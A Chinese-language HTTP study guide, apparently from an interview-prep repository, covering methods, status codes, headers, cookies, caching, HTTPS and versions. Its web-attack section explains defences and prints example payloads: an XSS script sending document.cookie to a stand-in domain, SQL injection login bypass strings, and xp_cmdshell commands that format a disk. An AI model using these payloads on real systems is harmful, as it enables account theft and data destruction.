

<!-- GFM-TOC -->
* [一 、基础概念](#一-基础概念)
    * [Web 基础](#web-基础)
    * [URL](#url)
    * [请求和响应报文](#请求和响应报文)
* [二、HTTP 方法](#二http-方法)
    * [GET](#get)
    * [HEAD](#head)
    * [POST](#post)
    * [PUT](#put)
    * [PATCH](#patch)
    * [DELETE](#delete)
    * [OPTIONS](#options)
    * [CONNECT](#connect)
    * [TRACE](#trace)
* [三、HTTP 状态码](#三http-状态码)
    * [1XX 信息](#1xx-信息)
    * [2XX 成功](#2xx-成功)
    * [3XX 重定向](#3xx-重定向)
    * [4XX 客户端错误](#4xx-客户端错误)
    * [5XX 服务器错误](#5xx-服务器错误)
* [四、HTTP 首部](#四http-首部)
    * [通用首部字段](#通用首部字段)
    * [请求首部字段](#请求首部字段)
    * [响应首部字段](#响应首部字段)
    * [实体首部字段](#实体首部字段)
* [五、具体应用](#五具体应用)
    * [Cookie](#cookie)
    * [缓存](#缓存)
    * [持久连接](#持久连接)
    * [管线化处理](#管线化处理)
    * [编码](#编码)
    * [分块传输编码](#分块传输编码)
    * [多部分对象集合](#多部分对象集合)
    * [范围请求](#范围请求)
    * [内容协商](#内容协商)
    * [虚拟主机](#虚拟主机)
    * [通信数据转发](#通信数据转发)
* [六、HTTPs](#六https)
    * [加密](#加密)
    * [认证](#认证)
    * [完整性](#完整性)
* [七、Web 攻击技术](#七web-攻击技术)
    * [攻击模式](#攻击模式)
    * [跨站脚本攻击](#跨站脚本攻击)
    * [跨站点请求伪造](#跨站点请求伪造)
    * [SQL 注入攻击](#sql-注入攻击)
    * [拒绝服务攻击](#拒绝服务攻击)
* [八、GET 和 POST 的区别](#八get-和-post-的区别)
    * [参数](#参数)
    * [安全](#安全)
    * [幂等性](#幂等性)
    * [可缓存](#可缓存)
    * [XMLHttpRequest](#xmlhttprequest)
* [九、各版本比较](#九各版本比较)
    * [HTTP/1.0 与 HTTP/1.1 的区别](#http10-与-http11-的区别)
    * [HTTP/1.1 与 HTTP/2.0 的区别](#http11-与-http20-的区别)
* [参考资料](#参考资料)
<!-- GFM-TOC -->


# 一 、基础概念

## Web 基础

- HTTP（HyperText Transfer Protocol，超文本传输协议）。
- WWW（World Wide Web）的三种技术：HTML、HTTP、URL。
- RFC（Request for Comments，征求修正意见书），互联网的设计文档。

## URL

- URI（Uniform Resource Indentifier，统一资源标识符）
- URL（Uniform Resource Locator，统一资源定位符）
- URN（Uniform Resource Name，统一资源名称），例如 urn:isbn:0-486-27557-4 。

URI 包含 URL 和 URN，目前 WEB 只有 URL 比较流行，所以见到的基本都是 URL。

<div align="center">  </div><br>

## 请求和响应报文

### 1. 请求报文

<div align="center">  </div><br>

### 2. 响应报文

<div align="center">  </div><br>

# 二、HTTP 方法

客户端发送的  **请求报文**  第一行为请求行，包含了方法字段。

## GET

> 获取资源

当前网络请求中，绝大部分使用的是 GET 方法。

## HEAD

> 获取报文首部

和 GET 方法一样，但是不返回报文实体主体部分。

主要用于确认 URL 的有效性以及资源更新的日期时间等。

## POST

> 传输实体主体

POST 主要用来传输数据，而 GET 主要用来获取资源。

更多 POST 与 GET 的比较请见第八章。

## PUT

> 上传文件

由于自身不带验证机制，任何人都可以上传文件，因此存在安全性问题，一般不使用该方法。

```html
PUT /new.html HTTP/1.1
Host: example.com
Content-type: text/html
Content-length: 16

<p>New File</p>
```

## PATCH

> 对资源进行部分修改

PUT 也可以用于修改资源，但是只能完全替代原始资源，PATCH 允许部分修改。

```html
PATCH /file.txt HTTP/1.1
Host: www.example.com
Content-Type: application/example
If-Match: "e0023aa4e"
Content-Length: 100

[description of changes]
```

## DELETE

> 删除文件

与 PUT 功能相反，并且同样不带验证机制。

```html
DELETE /file.html HTTP/1.1
```

## OPTIONS

> 查询支持的方法

查询指定的 URL 能够支持的方法。

会返回 Allow: GET, POST, HEAD, OPTIONS 这样的内容。

## CONNECT

> 要求用隧道协议连接代理

要求在与代理服务器通信时建立隧道，使用 SSL（Secure Sockets Layer，安全套接层）和 TLS（Transport Layer Security，传输层安全）协议把通信内容加密后经网络隧道传输。

```html
CONNECT www.example.com:443 HTTP/1.1
```

<div align="center">  </div><br>

## TRACE

> 追踪路径

服务器会将通信路径返回给客户端。

发送请求时，在 Max-Forwards 首部字段中填入数值，每经过一个服务器就会减 1，当数值为 0 时就停止传输。

通常不会使用 TRACE，并且它容易受到 XST 攻击（Cross-Site Tracing，跨站追踪），因此更不会去使用它。

# 三、HTTP 状态码

服务器返回的  **响应报文**  中第一行为状态行，包含了状态码以及原因短语，用来告知客户端请求的结果。

| 状态码 | 类别 | 原因短语 |
| :---: | :---: | :---: |
| 1XX | Informational（信息性状态码） | 接收的请求正在处理 |
| 2XX | Success（成功状态码） | 请求正常处理完毕 |
| 3XX | Redirection（重定向状态码） | 需要进行附加操作以完成请求 |
| 4XX | Client Error（客户端错误状态码） | 服务器无法处理请求 |
| 5XX | Server Error（服务器错误状态码） | 服务器处理请求出错 |

## 1XX 信息

-  **100 Continue** ：表明到目前为止都很正常，客户端可以继续发送请求或者忽略这个响应。

## 2XX 成功

-  **200 OK** 

-  **204 No Content** ：请求已经成功处理，但是返回的响应报文不包含实体的主体部分。一般在只需要从客户端往服务器发送信息，而不需要返回数据时使用。

-  **206 Partial Content** ：表示客户端进行了范围请求。响应报文包含由 Content-Range 指定范围的实体内容。

## 3XX 重定向

-  **301 Moved Permanently** ：永久性重定向

-  **302 Found** ：临时性重定向

-  **303 See Other** ：和 302 有着相同的功能，但是 303 明确要求客户端应该采用 GET 方法获取资源。

- 注：虽然 HTTP 协议规定 301、302 状态下重定向时不允许把 POST 方法改成 GET 方法，但是大多数浏览器都会在 301、302 和 303 状态下的重定向把 POST 方法改成 GET 方法。

-  **304 Not Modified** ：如果请求报文首部包含一些条件，例如：If-Match，If-ModifiedSince，If-None-Match，If-Range，If-Unmodified-Since，如果不满足条件，则服务器会返回 304 状态码。

-  **307 Temporary Redirect** ：临时重定向，与 302 的含义类似，但是 307 要求浏览器不会把重定向请求的 POST 方法改成 GET 方法。

## 4XX 客户端错误

-  **400 Bad Request** ：请求报文中存在语法错误。

-  **401 Unauthorized** ：该状态码表示发送的请求需要有认证信息（BASIC 认证、DIGEST 认证）。如果之前已进行过一次请求，则表示用户认证失败。

-  **403 Forbidden** ：请求被拒绝，服务器端没有必要给出拒绝的详细理由。

-  **404 Not Found** 

## 5XX 服务器错误

-  **500 Internal Server Error** ：服务器正在执行请求时发生错误。

-  **503 Service Unavilable** ：服务器暂时处于超负载或正在进行停机维护，现在无法处理请求。

# 四、HTTP 首部

有 4 种类型的首部字段：通用首部字段、请求首部字段、响应首部字段和实体首部字段。

各种首部字段及其含义如下（不需要全记，仅供查阅）：

## 通用首部字段

| 首部字段名 | 说明 |
| :--: | :--: |
| Cache-Control | 控制缓存的行为 |
| Connection | 控制不再转发给代理的首部字段、管理持久连接|
| Date | 创建报文的日期时间 |
| Pragma | 报文指令 |
| Trailer | 报文末端的首部一览 |
| Transfer-Encoding | 指定报文主体的传输编码方式 |
| Upgrade | 升级为其他协议 |
| Via | 代理服务器的相关信息 |
| Warning | 错误通知 |

## 请求首部字段

| 首部字段名 | 说明 |
| :--: | :--: |
| Accept | 用户代理可处理的媒体类型 |
| Accept-Charset | 优先的字符集 |
| Accept-Encoding | 优先的内容编码 |
| Accept-Language | 优先的语言（自然语言） |
| Authorization | Web 认证信息 |
| Expect | 期待服务器的特定行为 |
| From | 用户的电子邮箱地址 |
| Host | 请求资源所在服务器 |
| If-Match | 比较实体标记（ETag） |
| If-Modified-Since | 比较资源的更新时间 |
| If-None-Match | 比较实体标记（与 If-Match 相反） |
| If-Range | 资源未更新时发送实体 Byte 的范围请求 |
| If-Unmodified-Since | 比较资源的更新时间（与 If-Modified-Since 相反） |
| Max-Forwards | 最大传输逐跳数 |
| Proxy-Authorization | 代理服务器要求客户端的认证信息 |
| Range | 实体的字节范围请求 |
| Referer | 对请求中 URI 的原始获取方 |
| TE | 传输编码的优先级 |
| User-Agent | HTTP 客户端程序的信息 |

## 响应首部字段

| 首部字段名 | 说明 |
| :--: | :--: |
| Accept-Ranges | 是否接受字节范围请求 |
| Age | 推算资源创建经过时间 |
| ETag | 资源的匹配信息 |
| Location | 令客户端重定向至指定 URI |
| Proxy-Authenticate | 代理服务器对客户端的认证信息 |
| Retry-After | 对再次发起请求的时机要求 |
| Server | HTTP 服务器的安装信息 |
| Vary | 代理服务器缓存的管理信息 |
| WWW-Authenticate | 服务器对客户端的认证信息 |

## 实体首部字段

| 首部字段名 | 说明 |
| :--: | :--: |
| Allow | 资源可支持的 HTTP 方法 |
| Content-Encoding | 实体主体适用的编码方式 |
| Content-Language | 实体主体的自然语言 |
| Content-Length | 实体主体的大小 |
| Content-Location | 替代对应资源的 URI |
| Content-MD5 | 实体主体的报文摘要 |
| Content-Range | 实体主体的位置范围 |
| Content-Type | 实体主体的媒体类型 |
| Expires | 实体主体过期的日期时间 |
| Last-Modified | 资源的最后修改日期时间 |

# 五、具体应用

## Cookie

HTTP 协议是无状态的，主要是为了让 HTTP 协议尽可能简单，使得它能够处理大量事务。HTTP/1.1 引入 Cookie 来保存状态信息。

Cookie 是服务器发送给客户端的数据，该数据会被保存在浏览器中，并且客户端的下一次请求报文会包含该数据。通过 Cookie 可以让服务器知道两个请求是否来自于同一个客户端，从而实现保持登录状态等功能。

### 1. 创建过程

服务器发送的响应报文包含 Set-Cookie 字段，客户端得到响应报文后把 Cookie 内容保存到浏览器中。

```html
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry

[page content]
```

客户端之后发送请求时，会从浏览器中读出 Cookie 值，在请求报文中包含 Cookie 字段。

```html
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

### 2. 分类

- 会话期 Cookie：浏览器关闭之后它会被自动删除，也就是说它仅在会话期内有效。
- 持久性 Cookie：指定一个特定的过期时间（Expires）或有效期（Max-Age）之后就成为了持久性的 Cookie。

```html
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

### 3. Set-Cookie

| 属性 | 说明 |
| :--: | -- |
| NAME=VALUE | 赋予 Cookie 的名称和其值（必需项） |
| expires=DATE | Cookie 的有效期（若不明确指定则默认为浏览器关闭前为止） |
| path=PATH | 将服务器上的文件目录作为 Cookie 的适用对象（若不指定则默认为文档所在的文件目录） |
| domain=域名 | 作为 Cookie 适用对象的域名（若不指定则默认为创建 Cookie 的服务器的域名） |
| Secure | 仅在 HTTPs 安全通信时才会发送 Cookie |
| HttpOnly | 加以限制，使 Cookie 不能被 JavaScript 脚本访问 |

### 4. Session 和 Cookie 区别

Session 是服务器用来跟踪用户的一种手段，每个 Session 都有一个唯一标识：Session ID。当服务器创建了一个 Session 时，给客户端发送的响应报文包含了 Set-Cookie 字段，其中有一个名为 sid 的键值对，这个键值对就是 Session ID。客户端收到后就把 Cookie 保存在浏览器中，并且之后发送的请求报文都包含 Session ID。HTTP 就是通过 Session 和 Cookie 这两种方式一起合作来实现跟踪用户状态的，Session 用于服务器端，Cookie 用于客户端。

### 5. 浏览器禁用 Cookie 的情况

会使用 URL 重写技术，在 URL 后面加上 sid=xxx 。

### 6. 使用 Cookie 实现用户名和密码的自动填写

网站脚本会自动从保存在浏览器中的 Cookie 读取用户名和密码，从而实现自动填写。

但是如果 Set-Cookie 指定了 HttpOnly 属性，就无法通过 Javascript 脚本获取 Cookie 信息，这是出于安全性考虑。

## 缓存

### 1. 优点

1. 降低服务器的负担；
2. 提高响应速度（缓存资源比服务器上的资源离客户端更近）。

### 2. 实现方法

1. 让代理服务器进行缓存；
2. 让客户端浏览器进行缓存。

### 3. Cache-Control 字段

HTTP 通过 Cache-Control 首部字段来控制缓存。

```html
Cache-Control: private, max-age=0, no-cache
```

### 4. no-cache 指令

该指令出现在请求报文的 Cache-Control 字段中，表示缓存服务器需要先向原服务器验证缓存资源是否过期；

该指令出现在响应报文的 Cache-Control 字段中，表示缓存服务器在进行缓存之前需要先验证缓存资源的有效性。

### 5. no-store 指令

该指令表示缓存服务器不能对请求或响应的任何一部分进行缓存。

no-cache 不表示不缓存，而是缓存之前需要先进行验证，no-store 才是不进行缓存。

### 6. max-age 指令

该指令出现在请求报文的 Cache-Control 字段中，如果缓存资源的缓存时间小于该指令指定的时间，那么就能接受该缓存。

该指令出现在响应报文的 Cache-Control 字段中，表示缓存资源在缓存服务器中保存的时间。

Expires 字段也可以用于告知缓存服务器该资源什么时候会过期。在 HTTP/1.1 中，会优先处理 Cache-Control : max-age 指令；而在 HTTP/1.0 中，Cache-Control : max-age 指令会被忽略掉。

## 持久连接

当浏览器访问一个包含多张图片的 HTML 页面时，除了请求访问 HTML 页面资源，还会请求图片资源，如果每进行一次 HTTP 通信就要断开一次 TCP 连接，连接建立和断开的开销会很大。持久连接只需要建立一次 TCP 连接就能进行多次 HTTP 通信。

<div align="center">  </div><br>

持久连接需要使用 Connection 首部字段进行管理。HTTP/1.1 开始 HTTP 默认是持久化连接的，如果要断开 TCP 连接，需要由客户端或者服务器端提出断开，使用 Connection : close；而在 HTTP/1.1 之前默认是非持久化连接的，如果要维持持续连接，需要使用 Connection : Keep-Alive。

## 管线化处理

HTTP/1.1 支持管线化处理，可以同时发送多个请求和响应，而不需要发送一个请求然后等待响应之后再发下一个请求。

## 编码

编码（Encoding）主要是为了对实体进行压缩。常用的编码有：gzip、compress、deflate、identity，其中 identity 表示不执行压缩的编码格式。

## 分块传输编码

Chunked Transfer Coding，可以把数据分割成多块，让浏览器逐步显示页面。

## 多部分对象集合

一份报文主体内可含有多种类型的实体同时发送，每个部分之间用 boundary 字段定义的分隔符进行分隔，每个部分都可以有首部字段。

例如，上传多个表单时可以使用如下方式：

```html
Content-Type: multipart/form-data; boundary=AaB03x

--AaB03x
Content-Disposition: form-data; name="submit-name"

Larry
--AaB03x
Content-Disposition: form-data; name="files"; filename="file1.txt"
Content-Type: text/plain

... contents of file1.txt ...
--AaB03x--
```

## 范围请求

如果网络出现中断，服务器只发送了一部分数据，范围请求使得客户端能够只请求未发送的那部分数据，从而避免服务器端重新发送所有数据。

在请求报文首部中添加 Range 字段指定请求的范围，请求成功的话服务器发送 206 Partial Content 状态。

```html
GET /z4d4kWk.jpg HTTP/1.1
Host: i.imgur.com
Range: bytes=0-1023
```

```html
HTTP/1.1 206 Partial Content
Content-Range: bytes 0-1023/146515
Content-Length: 1024
...
(binary content)
```

## 内容协商

通过内容协商返回最合适的内容，例如根据浏览器的默认语言选择返回中文界面还是英文界面。

涉及以下首部字段：Accept、Accept-Charset、Accept-Encoding、Accept-Language、Content-Language。

## 虚拟主机

HTTP/1.1 使用虚拟主机技术，使得一台服务器拥有多个域名，并且在逻辑上可以看成多个服务器。

使用 Host 首部字段进行处理。

## 通信数据转发

### 1. 代理

代理服务器接受客户端的请求，并且转发给其它服务器。

使用代理的主要目的是：缓存、网络访问控制以及访问日志记录。

代理服务器分为正向代理和反向代理两种，用户察觉得到正向代理的存在，而反向代理一般位于内部网络中，用户察觉不到。

<div align="center">  </div><br>

<div align="center">  </div><br>

### 2. 网关

与代理服务器不同的是，网关服务器会将 HTTP 转化为其它协议进行通信，从而请求其它非 HTTP 服务器的服务。

### 3. 隧道

使用 SSL 等加密手段，为客户端和服务器之间建立一条安全的通信线路。隧道本身不去解析 HTTP 请求。

# 六、HTTPs

HTTP 有以下安全性问题：

1. 使用明文进行通信，内容可能会被窃听；
2. 不验证通信方的身份，通信方的身份有可能遭遇伪装；
3. 无法证明报文的完整性，报文有可能遭篡改。

HTTPs 并不是新协议，而是 HTTP 先和 SSL（Secure Sockets Layer）通信，再由 SSL 和 TCP 通信。也就是说 HTTPs 使用了隧道进行通信。

通过使用 SSL，HTTPs 具有了加密、认证和完整性保护。

<div align="center">  </div><br>

## 加密

### 1. 对称密钥加密

对称密钥加密（Symmetric-Key Encryption），加密的加密和解密使用同一密钥。

- 优点：运算速度快；
- 缺点：密钥容易被获取。

<div align="center">  </div><br>

### 2. 公开密钥加密

公开密钥加密（Public-Key Encryption），也称为非对称密钥加密，使用一对密钥用于加密和解密，分别为公开密钥和私有密钥。公开密钥所有人都可以获得，通信发送方获得接收方的公开密钥之后，就可以使用公开密钥进行加密，接收方收到通信内容后使用私有密钥解密。

- 优点：更为安全；
- 缺点：运算速度慢；

<div align="center">  </div><br>

### 3. HTTPs 采用的加密方式

HTTPs 采用混合的加密机制，使用公开密钥加密用于传输对称密钥，之后使用对称密钥加密进行通信。（下图中的 Session Key 就是对称密钥）

<div align="center">  </div><br>

## 认证

通过使用  **证书**  来对通信方进行认证。

数字证书认证机构（CA，Certificate Authority）是客户端与服务器双方都可信赖的第三方机构。服务器的运营人员向 CA 提出公开密钥的申请，CA 在判明提出申请者的身份之后，会对已申请的公开密钥做数字签名，然后分配这个已签名的公开密钥，并将该公开密钥放入公开密钥证书后绑定在一起。

进行 HTTPs 通信时，服务器会把证书发送给客户端，客户端取得其中的公开密钥之后，先进行验证，如果验证通过，就可以开始通信。

<div align="center">  </div><br>

使用 OpenSSL 这套开源程序，每个人都可以构建一套属于自己的认证机构，从而自己给自己颁发服务器证书。浏览器在访问该服务器时，会显示“无法确认连接安全性”或“该网站的安全证书存在问题”等警告消息。

## 完整性

SSL 提供报文摘要功能来验证完整性。

# 七、Web 攻击技术

## 攻击模式

### 1. 主动攻击

直接攻击服务器，具有代表性的有 SQL 注入和 OS 命令注入。

### 2. 被动攻击

设下圈套，让用户发送有攻击代码的 HTTP 请求，用户会泄露 Cookie 等个人信息，具有代表性的有跨站脚本攻击和跨站请求伪造。

## 跨站脚本攻击

### 1. 概念

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和 Cookie 等各种内容。

例如有一个论坛网站，攻击者可以在上面发表以下内容：

```
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳往 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

### 2. 危害

- 伪造虚假的输入表单骗取个人信息
- 窃取用户的 Cookie 值
- 显示伪造的文章或者图片

### 3. 防范手段

（一）过滤特殊字符

许多语言都提供了对 HTML 的过滤：

- PHP 的 htmlentities() 或是 htmlspecialchars()。
- Python 的 cgi.escape()。
- Java 的 xssprotect (Open Source Library)。
- Node.js 的 node-validator。

（二）指定 HTTP 的 Content-Type

通过这种方式，可以避免内容被当成 HTML 解析，比如 PHP 语言可以使用以下代码：

```php
<?php
   header('Content-Type: text/javascript; charset=utf-8');
?>
```

## 跨站点请求伪造

### 1. 概念

跨站点请求伪造（Cross-site request forgery，CSRF），是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了 Web 中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。

假如一家银行用以执行转账操作的 URL 地址如下：

```
http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName。
```

那么，一个恶意攻击者可以在另一个网站上放置如下代码：

```
。
```

如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失 1000 资金。

这种恶意的网址可以有很多种形式，藏身于网页中的许多地方。此外，攻击者也不需要控制放置恶意网址的网站。例如他可以将这种地址藏在论坛，博客等任何用户生成内容的网站中。这意味着如果服务器端没有合适的防御措施的话，用户即使访问熟悉的可信网站也有受攻击的危险。

透过例子能够看出，攻击者并不能通过 CSRF 攻击来直接获取用户的账户控制权，也不能直接窃取用户的任何信息。他们能做到的，是欺骗用户浏览器，让其以用户的名义执行操作。

### 2. 防范手段

（一）检查 Referer 字段

HTTP 头中有一个 Referer 字段，这个字段用以标明请求来源于哪个地址。在处理敏感数据请求时，通常来说，Referer 字段应和请求的地址位于同一域名下。

这种办法简单易行，工作量低，仅需要在关键访问处增加一步校验。但这种办法也有其局限性，因其完全依赖浏览器发送正确的 Referer 字段。虽然 HTTP 协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。

（二）添加校验 Token

由于 CSRF 的本质在于攻击者欺骗用户去访问自己设置的地址，所以如果要求在访问敏感数据请求时，要求用户浏览器提供不保存在 Cookie 中，并且攻击者无法伪造的数据作为校验，那么攻击者就无法再执行 CSRF 攻击。这种数据通常是表单中的一个数据项。服务器将其生成并附加在表单中，其内容是一个伪乱数。当客户端通过表单提交请求时，这个伪乱数也一并提交上去以供校验。正常的访问时，客户端浏览器能够正确得到并传回这个伪乱数，而通过 CSRF 传来的欺骗性攻击中，攻击者无从事先得知这个伪乱数的值，服务器端就会因为校验 Token 的值为空或者错误，拒绝这个可疑请求。

## SQL 注入攻击

### 1. 概念

服务器上的数据库运行非法的 SQL 语句。

### 2. 攻击原理

例如一个网站登录验证的 SQL 查询代码为：

```sql
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

如果填入以下内容：

```sql
userName = "1' OR '1'='1";
passWord = "1' OR '1'='1";
```

那么 SQL 查询字符串为：

```sql
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

此时无需验证通过就能执行以下查询：

```sql
strSQL = "SELECT * FROM users;"
```

### 3. 危害

- 数据表中的数据外泄，例如个人机密数据，账户数据，密码等。
- 数据结构被黑客探知，得以做进一步攻击（例如 SELECT * FROM sys.tables）。
- 数据库服务器被攻击，系统管理员账户被窜改（例如 ALTER LOGIN sa WITH PASSWORD='xxxxxx'）。
- 获取系统较高权限后，有可能得以在网页加入恶意链接、恶意代码以及 XSS 等。
- 经由数据库服务器提供的操作系统支持，让黑客得以修改或控制操作系统（例如 xp_cmdshell "net stop iisadmin" 可停止服务器的 IIS 服务）。
- 破坏硬盘数据，瘫痪全系统（例如 xp_cmdshell "FORMAT C:"）。

### 4. 防范手段

- 在设计应用程序时，完全使用参数化查询（Parameterized Query）来设计数据访问功能。
- 在组合 SQL 字符串时，先针对所传入的参数作字符取代（将单引号字符取代为连续 2 个单引号字符）。
- 如果使用 PHP 开发网页程序的话，亦可打开 PHP 的魔术引号（Magic quote）功能（自动将所有的网页传入参数，将单引号字符取代为连续 2 个单引号字符）。
- 其他，使用其他更安全的方式连接 SQL 数据库。例如已修正过 SQL 注入问题的数据库连接组件，例如 ASP.NET 的 SqlDataSource 对象或是 LINQ to SQL。
- 使用 SQL 防注入系统。

## 拒绝服务攻击

### 1. 概念

拒绝服务攻击（denial-of-service attack，DoS），亦称洪水攻击，其目的在于使目标电脑的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问。

分布式拒绝服务攻击（distributed denial-of-service attack，DDoS），指攻击者使用网络上两个或以上被攻陷的电脑作为“僵尸”向特定的目标发动“拒绝服务”式攻击。

> [维基百科：拒绝服务攻击](https://zh.wikipedia.org/wiki/%E9%98%BB%E6%96%B7%E6%9C%8D%E5%8B%99%E6%94%BB%E6%93%8A)

# 八、GET 和 POST 的区别

## 参数

GET 和 POST 的请求都能使用额外的参数，但是 GET 的参数是以查询字符串出现在 URL 中，而 POST 的参数存储在内容实体中。

GET 的传参方式相比于 POST 安全性较差，因为 GET 传的参数在 URL 中是可见的，可能会泄露私密信息。并且 GET 只支持 ASCII 字符，如果参数为中文则可能会出现乱码，而 POST 支持标准字符集。

```
GET /test/demo_form.asp?name1=value1&name2=value2 HTTP/1.1
```

```
POST /test/demo_form.asp HTTP/1.1
Host: w3schools.com
name1=value1&name2=value2
```

## 安全

安全的 HTTP 方法不会改变服务器状态，也就是说它只是可读的。

GET 方法是安全的，而 POST 却不是，因为 POST 的目的是传送实体主体内容，这个内容可能是用户上传的表单数据，上传成功之后，服务器可能把这个数据存储到数据库中，因此状态也就发生了改变。

安全的方法除了 GET 之外还有：HEAD、OPTIONS。

不安全的方法除了 POST 之外还有 PUT、DELETE。

## 幂等性

幂等的 HTTP 方法，同样的请求被执行一次与连续执行多次的效果是一样的，服务器的状态也是一样的。换句话说就是，幂等方法不应该具有副作用（统计用途除外）。在正确实现的条件下，GET，HEAD，PUT 和 DELETE 等方法都是幂等的，而 POST 方法不是。所有的安全方法也都是幂等的。

GET /pageX HTTP/1.1 是幂等的。连续调用多次，客户端接收到的结果都是一样的：

```
GET /pageX HTTP/1.1
GET /pageX HTTP/1.1
GET /pageX HTTP/1.1
GET /pageX HTTP/1.1
```

POST /add_row HTTP/1.1 不是幂等的。如果调用多次，就会增加多行记录：

```
POST /add_row HTTP/1.1
POST /add_row HTTP/1.1   -> Adds a 2nd row
POST /add_row HTTP/1.1   -> Adds a 3rd row
```

DELETE /idX/delete HTTP/1.1 是幂等的，即便是不同请求之间接收到的状态码不一样：

```
DELETE /idX/delete HTTP/1.1   -> Returns 200 if idX exists
DELETE /idX/delete HTTP/1.1   -> Returns 404 as it just got deleted
DELETE /idX/delete HTTP/1.1   -> Returns 404
```

## 可缓存

如果要对响应进行缓存，需要满足以下条件：

1. 请求报文的 HTTP 方法本身是可缓存的，包括 GET 和 HEAD，但是 PUT 和 DELETE 不可缓存，POST 在多数情况下不可缓存的。
2. 响应报文的状态码是可缓存的，包括：200, 203, 204, 206, 300, 301, 404, 405, 410, 414, and 501。
3. 响应报文的 Cache-Control 首部字段没有指定不进行缓存。

## XMLHttpRequest

为了阐述 POST 和 GET 的另一个区别，需要先了解 XMLHttpRequest：

> XMLHttpRequest 是一个 API，它为客户端提供了在客户端和服务器之间传输数据的功能。它提供了一个通过 URL 来获取数据的简单方式，并且不会使整个页面刷新。这使得网页只更新一部分页面而不会打扰到用户。XMLHttpRequest 在 AJAX 中被大量使用。

在使用 XMLHttpRequest 的 POST 方法时，浏览器会先发送 Header 再发送 Data。但并不是所有浏览器会这么做，例如火狐就不会。

# 九、各版本比较

## HTTP/1.0 与 HTTP/1.1 的区别

1. HTTP/1.1 默认是持久连接
2. HTTP/1.1 支持管线化处理
3. HTTP/1.1 支持虚拟主机
4. HTTP/1.1 新增状态码 100
5. HTTP/1.1 支持分块传输编码
6. HTTP/1.1 新增缓存处理指令 max-age

具体内容见上文

## HTTP/1.1 与 HTTP/2.0 的区别

### 1. 多路复用

HTTP/2.0 使用多路复用技术，使用同一个 TCP 连接来处理多个请求。

### 2. 首部压缩

HTTP/1.1 的首部带有大量信息，而且每次都要重复发送。HTTP/2.0 要求通讯双方各自缓存一份首部字段表，从而避免了重复传输。

### 3. 服务端推送

在客户端请求一个资源时，会把相关的资源一起发送给客户端，客户端就不需要再次发起请求了。例如客户端请求 index.html 页面，服务端就把 index.js 一起发给客户端。

### 4. 二进制格式

HTTP/1.1 的解析是基于文本的，而 HTTP/2.0 采用二进制格式。

# 参考资料

- 上野宣. 图解 HTTP[M]. 人民邮电出版社, 2014.
- [MDN : HTTP](https://developer.mozilla.org/en-US/docs/Web/HTTP)
- [Are http:// and www really necessary?](https://www.webdancers.com/are-http-and-www-necesary/)
- [HTTP (HyperText Transfer Protocol)](https://www.ntu.edu.sg/home/ehchua/programming/webprogramming/HTTP_Basics.html)
- [Web-VPN: Secure Proxies with SPDY & Chrome](https://www.igvita.com/2011/12/01/web-vpn-secure-proxies-with-spdy-chrome/)
- [File:HTTP persistent connection.svg](http://en.wikipedia.org/wiki/File:HTTP_persistent_connection.svg)
- [Proxy server](https://en.wikipedia.org/wiki/Proxy_server)
- [What Is This HTTPS/SSL Thing And Why Should You Care?](https://www.x-cart.com/blog/what-is-https-and-ssl.html)
- [What is SSL Offloading?](https://securebox.comodo.com/ssl-sniffing/ssl-offloading/)
- [Sun Directory Server Enterprise Edition 7.0 Reference - Key Encryption](https://docs.oracle.com/cd/E19424-01/820-4811/6ng8i26bn/index.html)
- [An Introduction to Mutual SSL Authentication](https://www.codeproject.com/Articles/326574/An-Introduction-to-Mutual-SSL-Authentication)
- [The Difference Between URLs and URIs](https://danielmiessler.com/study/url-uri/)
- [维基百科：跨站脚本](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%B6%B2%E7%AB%99%E6%8C%87%E4%BB%A4%E7%A2%BC)
